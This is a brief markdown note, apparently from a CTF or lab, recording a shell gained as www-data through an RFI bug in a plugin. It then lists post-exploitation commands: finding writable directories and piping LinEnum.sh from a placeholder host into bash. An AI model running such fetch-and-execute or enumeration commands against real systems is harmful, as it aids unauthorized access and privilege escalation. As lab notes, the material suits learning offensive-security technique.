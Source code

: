 # user www-data 
## Got shell from an RFI vulnerablility on a plugin gwollen - foudn in www dir
### useful command to find writable directory
```
find . -writable -ls

```

### useful command to download LinEnum.sh and RUN IT 
#### Assume already hosting on a webserver
```
curl http://ip-addr/LinEnum.sh | bash
```
- Tried wget and piping it through but I was denied cause I cannot write
